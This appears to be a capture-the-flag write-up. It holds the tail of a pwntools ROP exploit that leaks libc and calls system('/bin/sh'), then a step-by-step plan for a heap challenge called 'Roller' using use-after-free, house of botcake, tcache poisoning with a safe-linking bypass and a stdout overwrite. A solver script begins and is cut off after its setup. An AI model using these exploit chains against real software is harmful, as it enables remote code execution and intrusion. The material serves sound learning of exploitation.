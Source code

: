 ```python
puts_plt=exe.address+0x0000000000001030
puts_got=exe.address+0x3fb8
rdi=exe.address+0x0000000000001226
p.send(b"a"*0x100+p64(0)+p64(rdi)+p64(puts_got)+p64(puts_plt)+p64(exe.symbols["main"]))
p.recvuntil(b"a"*0x100+b"\n")
libc.address=u64(p.recv(6).ljust(8,b"\x00"))-0x87bd0
log.info(hex(libc.address))

#debug()
ret=exe.address+0x00000000000011d0
p.send(b"a"*0x100+p64(exe.address+0x4000+0xe00)+p64(ret)+p64(rdi)+p64(next(libc.search(b"/bin/sh")))+p64(libc.symbols["system"]))

p.interactive()
```

# Roller

a heap challenge with these functionnalities :

- allocate anything of size < 0x100
- free with the pointer not being nulled out : Dangling pointer
- show the contents of a chunk using printf : stops on null byte

Plan

- we can free a chunk into tcache then read it with show() >>> heap leak
- we can free 7 chunks , they will fill tcache , if we free and 8th chunk it will be put into unsorted bin >>> libc leak
- the UAF vuln we have allows us to only free and show already freed chunks, show wont crush the program . but if we free the same chunk twice stupidly , the program will crush with `double free exception` . so how do we bypass that and try to get overlapping chunks ??

- there is an attack known to this thing , that is called [house of botcake](https://github.com/shellphish/how2heap/blob/master/glibc_2.35/house_of_botcake.c) . you dont need to understand the whole technique but just the part we need .
- what this technique does is make use of these bugs/features xD :
  - when a chunk is put into unsorted bin (but is not the actual head of the chunk , meaning the chunk consolidated backwards with another chunk) , and when you try to free it again , there is a free spot in the tcache , it will not detect that it is already freed , and it will put into tcache .
- we use the technique explained above . and we get this layout : unsorted bin chunk of size(0x1c0) , the second half this chunk is in the tcache freelist of size 0xe0
- what we do allocate 0x100 (it will split the 0x1c0 chunk), that we the get a chunk that can modifie the contents of the second half
- we modife the fd pointer of the tcache freelist so it points to our target that we want to overwrite. we shouldnt forget about safelinking when writing the pointer
- i chose to overwrite stdout for RCE

Solver :

```python
from pwn import *
from time import sleep
context.arch = 'amd64'

def debug():
        if local<2:
                gdb.attach(p,'''
                        x/20gx &cigs
                        ''')
###############   files setup   ###############
local=len(sys.argv)
exe=ELF("./main_patched")
libc=ELF("./libc.so.6")
nc="nc tcp.espark.tn 5322"
```